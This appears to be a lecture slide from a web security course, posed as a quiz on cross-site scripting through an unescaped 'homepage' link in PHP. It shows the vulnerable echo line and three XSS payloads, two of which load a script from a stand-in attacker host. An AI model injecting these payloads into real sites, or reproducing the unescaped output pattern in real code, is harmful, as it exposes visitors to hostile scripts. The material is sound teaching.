

# HTML Contexts
The blogging application also accepts a ‘homepage’ from the anonymous  commenter. The application uses this value to display a helpful link:
<? echo "<a href='".$homepage."'>Home</a>"; ?>

Which of the following values for	cause untrusted code execution?
$homepage

<script src="http://attacker.com/evil.js"></script>
'<script src="http://attacker.com/evil.js"></script>
javascript:alert("evil code executing");
Dawn Song